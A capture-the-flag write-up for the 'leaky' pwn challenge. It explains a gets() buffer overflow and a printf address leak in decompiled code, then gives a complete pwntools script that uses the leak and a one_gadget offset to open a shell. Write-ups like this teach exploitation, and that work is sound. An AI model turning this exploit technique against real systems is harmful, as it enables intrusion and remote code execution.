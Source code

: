 # leaky - Pwn challenge
We can see with `$ file` that the binary is a 64-bit ELF. We go straight up in `ghidra` to analyze it.  
`main` function looks like this:
```c
undefined8 main(void)

{
  setvbuf(stdout,(char *)0x0,2,0);
  welcome();
  vuln();
  goodbye();
  return 0;
}
```

Pretty straight forward, we head into `vuln`. 
```c
void vuln(void)

{
  int iVar1;
  char local_18 [8];
  char local_10 [8];
  
  puts("If you give me a cookie, I will give you a present :)");
  gets(local_10);
  iVar1 = strncmp(local_10,s,8);
  if (iVar1 == 0) {
    printf("Thanks a lot for the cookie <(^_^)> !! Here is a present for you: %p\n",printf);
    puts("Do you like my present??\n");
    gets(local_18);
  }
  return;
}
```
We can see a **Buffer overflow** via `gets`. Also, there is a leak if we pass the comparison and we can get the address of `printf`. 
This is very important and useful because from that we can calculate **libc_base**. 
As we can see, it compares our input that is stored in `local_10` with `s`which is the const: `a cookie`.  
After we pass that and get our leak, we calculate libc_base.  
```
libc_base = leaked_printf - libc_printf
```
Then we use `one_gadget` to get shell. In order to get shell, we need the proper libc. This is for my local machine. 
```python
#!/usr/bin/python3  
from pwn import *

ip = 'ctf.uniwa.gr' # change this
port = 2005 # change this
filename = './leaky' # change this

_libc = '/lib/x86_64-linux-gnu/libc.so.6' # change this

og = [0xcb79a, 0xcb79d, 0xcb7a0, 0xe926b] 

def pwn():
    #r = remote(ip, port)
    r = process(filename)
    e = ELF(filename)
    libc = ELF(_libc)
    
    ### Calculate the addresses ###
    printf_libc = libc.symbols['printf']
    main = p64(e.symbols['main'])
    junk = b'z'*24
    
    ### Stage 1: leaking ###
    payload = 'a cookie'
    r.sendlineafter('a present :)', payload)
    r.recvuntil(':')
    leaked = r.recvline()
    leaked = int(leaked, 16)
    log.success('Leaked printf: ' + hex(leaked))
    gdb.attach(r)

    ### Stage 2: Calculate libc_base and offsets ###
    base = leaked - printf_libc

    ### Stage 3: craft payload and get shell ###
    payload = junk + p64(base + og[0])
    r.sendlineafter('present??', payload)
    log.success('SHELL OBTAINED SUCCESSFULLY!\n')
    r.interactive()

pwn()
```
